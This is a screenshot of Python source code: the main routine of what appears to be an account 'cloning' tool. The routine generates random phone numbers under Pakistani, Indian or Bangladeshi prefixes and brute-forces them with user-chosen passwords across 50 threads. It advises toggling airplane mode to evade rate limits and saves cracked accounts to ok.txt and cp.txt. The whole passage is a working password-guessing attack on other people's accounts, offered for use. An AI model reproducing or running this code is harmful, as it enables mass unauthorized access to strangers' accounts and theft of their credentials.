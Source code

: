 def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)


    jalan("     \33[37;41m\t  USE OUR COUNTRY CODE  \33[0;m")
    print('')
    jalan('\033[1;36m  PAK  CODES  :  \033[1;33m92301, \033[1;33m92302 ,\033[1;33m92303 ,\033[1;33m92305  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  INDIA CODES :  \033[1;33m91778, \033[1;33m91930 ,\033[1;33m91902 ,\033[1;33m91712  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  BD CODES    :  \033[1;33m88016, \033[1;33m88017 ,\033[1;33m88018 ,\033[1;33m88019  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════\n')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;36m TOTAL IDS: '+tl)
        print('\033[1;36m THE PROCESS HAS BEEN STARTED')
        print('\033[1;31m USE AIROPLANE MOOD IN EVERY 5 MIN ')
        print('\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
